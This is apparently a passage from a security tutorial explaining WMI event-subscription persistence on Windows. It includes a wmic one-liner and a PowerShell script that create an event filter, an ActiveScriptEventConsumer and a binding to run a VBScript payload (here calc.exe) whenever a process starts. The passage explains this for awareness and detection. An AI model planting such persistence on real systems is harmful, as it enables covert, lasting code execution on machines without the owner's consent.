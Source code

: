 ```
wmic /namespace:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="MaliciousConsumer" CommandLineTemplate="cmd.exe /c calc.exe"
```

##### WMI ActiveScriptEventConsumers

* Focused on full script execution.  
* Scripts are typically VBScript or JScript, often stored or embedded directly in the consumer.  
* Used for persistence or more complex tasks (e.g., downloading additional payloads, altering system configs).  
* Artifacts like temp directories, startup folders, or unusual scripts in AppData often hint at misuse.

```
$FilterName = "MaliciousFilter"
$ConsumerName = "MaliciousConsumer"
$Script = "Set WshShell = CreateObject('WScript.Shell') : WshShell.Run('cmd.exe /c calc.exe')"

# Define the event filter
$Filter = ([WMIClass]"\\.\root\subscription:__EventFilter").CreateInstance()
$Filter.Name = $FilterName
$Filter.QueryLanguage = "WQL"
$Filter.Query = "SELECT * FROM __InstanceCreationEvent WITHIN 10 WHERE TargetInstance ISA 'Win32_Process'"
$Filter.Put()

# Define the ActiveScript consumer
$Consumer = ([WMIClass]"\\.\root\subscription:ActiveScriptEventConsumer").CreateInstance()
$Consumer.Name = $ConsumerName
$Consumer.ScriptingEngine = "VBScript"
$Consumer.ScriptText = $Script
$Consumer.Put()

# Bind the filter to the consumer
$Binding = ([WMIClass]"\\.\root\subscription:__FilterToConsumerBinding").CreateInstance()
$Binding.Filter = $Filter.__PATH
$Binding.Consumer = $Consumer.__PATH
$Binding.Put()
```

**Filter Creation:**

* The $Filter object is created from the \_\_EventFilter class.  
* $FilterName is used as the filter's name, and a WQL query specifies what events the filter will match.

**Consumer Creation:**

* The $Consumer object is created from the ActiveScriptEventConsumer class.  
* $ConsumerName is used to name the consumer.  
* The $Script variable provides the malicious payload (e.g., running calc.exe).

**Binding:**

* The __FilterToConsumerBinding object binds the filter `($Filter)` to the consumer `($Consumer)` using their paths.
